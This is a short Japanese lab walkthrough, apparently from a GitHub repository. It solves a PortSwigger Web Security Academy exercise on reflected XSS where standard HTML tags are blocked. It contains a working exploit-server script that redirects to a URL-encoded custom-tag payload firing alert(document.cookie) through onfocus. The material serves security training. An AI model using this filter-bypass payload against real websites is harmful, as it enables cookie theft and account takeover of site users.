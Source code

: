 # カスタムタグを除くすべてのタグをブロックして XSS を HTML コンテキストに反映

以下のハッキングラボを実施します  
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked

- 1. ハッキングラボにアクセスします
- 2. エクスプロイトサーバーに移動します
- 3. 次のコードをボディに張り付けます

```html
<script>
  location = "https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x";
</script>
```

![1](https://github.com/pea-sys/web-security-experiments/assets/49807271/2d466435-f1d7-4993-b39a-0f25993d0bd0)

- 4. Store ボタン →Deliver exploit to victim ボタン押下
- 5. 生成したレスポンスを見てみます
     ![1](https://github.com/pea-sys/web-security-experiments/assets/49807271/2633f1dd-aa03-47f1-90dc-58a0beeefda0)
